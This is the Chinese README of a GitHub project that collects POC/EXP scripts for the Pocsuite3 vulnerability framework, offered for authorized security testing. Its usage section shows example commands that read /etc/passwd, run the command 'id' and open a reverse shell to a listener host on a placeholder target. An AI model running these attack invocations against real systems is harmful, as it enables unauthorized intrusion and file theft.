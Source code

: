 # PeiQi-WiKi-PocSuite3 文库🐑

## 关于项目

项目用于安全人员在授权的情况下，更加快速的使用POC/EXP来验证漏洞

漏洞的验证使用由知道创宇开发的Github开源项目Pocsuite3框架，在多个开源漏洞验证的框架中，Pocsuite3集合了漏洞利用和验证等功能，而使用Python语言来编写POC/EXP则大大减少了编写所花费的时间，也方便安全研究人员扩展使用方式，在此十分感谢框架的开发人员～

Github地址 : https://github.com/knownsec/pocsuite3

![](image/image-1.png)

## 使用需知

POC/EXP 仅仅只供对已授权的目标使用测试，对未授权目标的测试PeiQi文库不承担责任，均由本人自行承担

本文库中的漏洞均为公开的漏洞收集，如果文库中的漏洞出现敏感内容产生了部分影响，请及时联系作者删除漏洞，望谅解~

如在使用中发现Bug，可以通过issues形式提交给作者进行修复与更新

## 公众号

![](image/image-2.png)

## 关于使用

```
文件读取验证
python3 cli.py -u "http://xxx.xxx.xxx.xxx" -r pocs/poc.py --attack --filename "/etc/passwd"
```
![](image/image-3.png)

```
命令执行验证
python3 cli.py -u "http://xxx.xxx.xxx.xxx" -r pocs/poc.py --attack --command "id"
```
![](image/image-4.png)

```
反弹Shell验证   
python3 cli.py -u "http://xxx.xxx.xxx.xxx" -r pocs/poc.py --shell --lhost "xxx.xxx.xxx.xxx"
```
![](image/image-5.png)

```
无回显 Dnslog测试
```
![](image/image-6.png)

## 最后
```
别忘了Github下载完给个小星星⭐
```

[![](https://repobeats.axiom.co/api/embed/b7e4e137fc6d1873d1d28270feeae5035267ead3.svg "Repobeats analytics image")](https://github.com/PeiQi0/PeiQi-WIKI-PocSuite3)

